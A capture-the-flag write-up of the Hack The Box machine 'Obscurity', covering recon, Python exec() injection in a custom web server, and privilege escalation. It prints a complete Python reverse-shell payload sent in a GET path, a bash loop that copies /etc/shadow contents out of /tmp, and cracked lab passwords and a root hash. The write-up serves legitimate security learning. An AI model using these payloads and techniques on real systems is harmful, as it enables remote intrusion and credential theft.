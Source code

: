 ```yaml
---
title: "📦 HTB - Obscurity"
date: 2020-04-12 16:00:00
tags: ["htb", "writeup"]
author: "0xNinja"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
cover:
    image: box.png
---
```


> Obscurity is my first medium box so I was very happy when I got that `root.txt` :D

## TL;DR

Custom Python web server, get source code, get revserse shell, crack user password for custom encryption system, use john to privesc.

## Footholds

To make things easier, I added the box to my `/etc/hosts`.

### Recon

Let's start with nmap to discover the open ports :

```
> nmap -A obscurity.htb -o nmap.out

Nmap scan report for obscurity.htb (10.10.10.168)
    Host is up (0.026s latency).
    Not shown: 996 filtered ports
    PORT     STATE  SERVICE    VERSION
    22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
    |   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
    |_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
    80/tcp   closed http
    8080/tcp open   http-proxy BadHTTPServer
    | fingerprint-strings: 
    |   GetRequest, HTTPOptions: 
    |     HTTP/1.1 200 OK
    |     Date: Fri, 10 Apr 2020 11:14:28
    |     Server: BadHTTPServer
    |     ...
    |_http-server-header: BadHTTPServer
    |_http-title: 0bscura
    ...
```

So we got so far SSH and HTTP server running on the machine.

### Web server

On the port 8080 we can see the web server which indicates that it is hand-made with custom code.

![0bscura homepage](homepage.png)

> If you use custom code, you can't have CVE's on it. So your code is 100% secure.

![Smart move gif](https://media.giphy.com/media/d3mlE7uhX8KFgEmY/giphy.gif)

By reading the content of their homepage, we get a good hint : they are hosting the source code on the server. We have to find `SuperSecureServer.py` ont it !

![0bscura devteam](devmessage.png)

### Finding source code

The easiest way I found on the moment was to fire up Burpsuite and use a directory wordlist.

By making a first request to the webserver, I sent it to Burp's intruder in sniper mode. Using a simple directory wordlist (`common.txt`) I placed the payload's position as `GET /§a§/SuperSecureServer.py`, launched the attack and waited for burp to get a 200 response code.

![Burp intruder](intruder.png)

![Burp payload](payload.png)

The source code is at `/develop/SuperSecureServer.py` !

![Burp result](result.png)

### Source code auditing

By reading the code, I found that during the document serving process, the `exec()` function is called.

```python
def serveDoc(self, path, docRoot):
    path = urllib.parse.unquote(path)
    try:
        info = "output = 'Document: {}'" # Keep the output for later debug
        exec(info.format(path)) # This is how you do string formatting, right? <-- here
        cwd = os.path.dirname(os.path.realpath(__file__))
        docRoot = os.path.join(cwd, docRoot)
        if path == "/":
            path = "/index.html"
```

### Reverse shell

After understanding when the exec was called, I injected a python reverse shell payload. Basically this is a command injection through format string, string which got evaluated right after. The payload we could manipulate was directly the path we GET on the server. My final payload for the reverse shell was :

```
GET /';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This payload works because :

* The first `'` is used to break the string generated by the format string
* Both `;` to inject a new python code between
* The last `'` is to make an empty string with the single quote from the source code, otherwise an error is raised

So I just launched a netcat connexion listenning on my machine, and made a request on the server with the payload to get the shell.

![Hapyp GIF](https://media.giphy.com/media/Ls6ahtmYHU760/giphy.gif)

## User

The reverse shell we have is as `www-data`, we need to privesc as a regular user.

```shell
> ls /home
robert
```

We know that user `robert` must be the user we need to privesc as. We need to investigate it's home directory.

```shell
> ls /home/robert
BetterSSH   check.txt   out.txt passwordreminder.txt    SuperSecureCrypt.py ...
```

We got a bunch of files here, some are pretty interesting, especially the Python script.

By examining it, we understand that Robert uses a custom password manager, stores it's "encrypted" password in a file, and tested it's encryption passphrase on a dummy text file.

First thing I did was to BF it's password using the famous rockyou. But it was unsuccessfull, I managed to get something close to it's password, but not the actual password.

After thinking about the encryption and decryption algorithms, I managed to get the real password.

To use the Python script : `python SuperSecureCrypt.py -i infile -k key -o outfile` will "encypt" the content of infile with key into outfile. To decrypt we have to use the `-d` option.

As the encryption and decryption where very simple :

```python
def encrypt(text, key):
    for x in text:
    newChr = chr( (ord(x) + ord(keyChr)) % 255 )
    encrypted += newCrh

def decrypt(text, key):
    for x in text:
    newChr = chr( (ord(x) - ord(keyChr)) % 255 )
    decrypted += newChr
```

The easiest way to get the password was : `python SuperSecureCrypt.py -d -i out.txt -k "$(cat check.txt)" -o pass.txt`

The encryption password was `alexandrovich`.

`python SuperSecureCrypt.py -d -i passwordreminder.txt -k alexandrovich -o robert.txt`

Robert's password was `SecThruObsFTW`, we can SSH as him and get the `user.txt` content.

![Yes GIF](https://media.giphy.com/media/hXDrTueJWAscK3xWQ2/giphy.gif)

## Root

We now need to go root. As robert :

```
> sudo -l
User robert may run the following commands on obscure:
(ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

So yeah, we know where to start. We now need to know how to exploit this BetterSSH.py script.

By reading the first lines, we know that it reads the `/etc/shadow` file, and write it's content into a file somewhere in `/tmp/SSH/`. The script prompts for a username and password, if the password's hash does corresponds to the shadow one, it gives a shell as this user.

I started to find a fancy way to monitor the content of the `/tmp/SSH/` folder, but a simple bash script can do anything :

```bash
#!/bin/bash
while true; do
    cat /tmp/SSH/* >> /tmp/.ninja
done
```

I launched the script in background, launched the BetterSSH script too, and read the content of my `/tmp/.ninja` file. We get most of the users' hashes separated by line, but only one matters to us. Root's hash was `$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1`.

Using john the ripper on the hash, we get root's password : `mercedes`. I could have SSH back as root, but there is already a tool for us : `sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py`, entered `root` for user, and `mercedes` for password, we now have a shell as root.

![Happy GIF 2](https://media.giphy.com/media/YJ5OlVLZ2QNl6/giphy.gif)

![Rooted](rooted.png)
